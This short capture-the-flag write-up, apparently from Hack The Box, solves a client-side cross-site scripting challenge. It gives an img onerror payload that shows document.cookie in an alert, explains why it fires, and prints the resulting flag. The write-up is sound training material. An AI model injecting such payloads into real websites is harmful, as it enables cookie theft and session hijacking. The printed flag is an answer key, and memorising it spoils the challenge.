 ## Challenge

To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url. 

## Solution

I added the following ath the input field:

```js
<img src="test" onerror=alert(document.cookie)>
```

So I look for an image name `test` and if it doesn't exist, it will print me the cookie, which it did:

`HTB{pur3ly_cl13n7_51d3}`